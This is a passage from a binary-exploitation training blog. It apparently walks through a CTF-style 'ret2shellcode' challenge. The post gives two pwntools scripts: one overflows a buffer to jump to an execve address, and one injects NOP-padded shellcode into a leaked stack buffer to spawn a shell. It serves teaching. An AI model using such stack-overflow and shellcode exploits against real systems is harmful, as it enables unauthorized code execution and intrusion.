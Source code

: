 ```python
from pwn import *

p = process("ret2shellcode")
p.sendline(b"a"*0x60 + b"a"*8 + p64(0x00000000004011d1)) # address to execve
p.interactive()
```
> Here we avoided the constraints and directly jumped to the execve funtion. Clever of you.

## return 2 shellcode:

This is the third and final way that we will discuss in this blog. Do you remember the leak at the begining ? Yes we will use the leak to get a shell. This time ignore the win() function. Without the help of helper function get a shell yourself :D . 

Remember at the begining I said this binary is NX disabled. So we can basically store the commands that we want to excecute in buf variable and then jump back to the buf variable thereby excecuting whatever we want.

> A shellcode is a set of instruction that will give you a shell or does some function that you want when excecuted.

* First step is to store the leak in a variable. We will use **recvline** function here to recv the output given by the program.
* Write all the commands that you want to excecute to get a shell (pwntools has inbuilt functionalities :D ).
* Fill the gap between the return and the shellcode with dummy instructions called nop.
* Jump back to buf variable.

```python
#!/usr/bin/env python3
from pwn import *

def start():
	global p
	if args.REMOTE:
		p = remote('localhost', 1337)
	else:
		p = elf.process() # start the process.

context.binary = elf = ELF('./ret2shellcode') 
start()

buf_addr = int(p.recvlines(2)[-1].split()[-1], 16) # recvlines and then get the leak

payload = asm(shellcraft.linux.sh()) # generates a shellcode compatible with linux systems
payload += b'\x90'*(104 - len(payload)) # spans the gap between buf variable and return 
payload += p64(buf_addr) # address of the buf variable

p.sendline(payload) # send the payload

p.interactive() # doesnt close the shell and keeps it open for us.
p.close()
```

Hope you liked the pwn training 1. More training writeups coming soon ! :D 
